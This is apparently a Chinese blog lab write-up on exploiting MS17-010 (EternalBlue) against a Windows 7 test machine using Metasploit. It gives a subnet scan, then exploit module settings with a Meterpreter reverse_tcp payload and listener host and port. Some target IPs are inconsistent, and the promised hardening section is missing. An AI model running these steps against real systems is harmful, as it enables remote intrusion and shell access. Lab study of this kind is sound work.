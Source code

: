 ```yaml
---
cover: http://cloud.myxz.fun//blog/20250321163522292.png
icon: pen-to-square
date: 2025-03-19
category:
  - 经典漏洞
tag:
  - 永恒之蓝ms17-010
star: false
sticky: false
---
```


# 永恒之蓝ms17-010

MS17_010漏洞利用与安全加固（永恒之蓝）

之前做过就直接放出来啦

- 原理：

恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

- 开始

1.断开防火墙，windos 7 的防火墙关闭

![关闭防火墙](http://cloud.myxz.fun//blog/20250321163252914.png)

2.实现相互ping通

![ping通](http://cloud.myxz.fun//blog/20250321163512998.png)

![ping](http://cloud.myxz.fun//blog/20250321164611579.png)

环境弄好了，正文开始！172.16.17.0

3.在kali当中启动metasploit工具，

通过执行msfconsole指令进行启动。

![msf](http://cloud.myxz.fun//blog/20250321163522292.png)

4.Search命令搜索ms17-010漏洞扫描模块，图中圈中的就是漏洞扫描模块。

执行：

```
search ms17-010 //搜索ms17-010相关漏洞利用模块
```

![选择](http://cloud.myxz.fun//blog/20250321163529077.png)

执行：

```
msf > use auxiliary/scanner/smb/smb_ms17_010 （利用模块该扫描模块并且设置相关扫描范围信息）。**
```

执行：

```
use auxiliary/scanner/smb/smb_ms17_010 //选择使用该模块执行搜索选项

set rhosts 192.168.6.0/24 //设置扫描的网段范围

set threads 20 //设置扫描的线程，数值越大扫描速度越快

run //开始运行即开始执行扫描
```

![负载](http://cloud.myxz.fun//blog/20250321163538468.png)

6.执行扫描过后，结果如下所示，从结果中可以看到在当前扫描的网段中存在一个windows 7版本的操作系统存在ms17-010漏洞。（192.168.6.135就是window 7的IP）

![打他](http://cloud.myxz.fun//blog/20250321164632624.png)

192.168.32.136:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)

7.接下来进行漏洞利用过程即可，

执行：

```
use exploit/windows/smb/ms17_010_eternalblue //选择漏洞利用模块

set payload windows/x64/meterpreter/reverse_tcp //设置漏洞利用完成后的反弹模块，用以接收回馈信息

set lhost 192.168.6.130//设置反弹IP地址

set lport 5555 //设置反弹端口

set rhost 192.168.6.135 //设置被攻击的目标主机
```

![配置](http://cloud.myxz.fun//blog/20250321163545820.png)﻿

执行：

```
show options //检查设定的信息
```

![查看](http://cloud.myxz.fun//blog/20250321163554821.png)﻿

9.

执行：

```
run
```

或

```
exploit //开始进行漏洞利用
```

![提权](http://cloud.myxz.fun//blog/20250321163602950.png)﻿

看到WIN了吗？你就成功了！！！
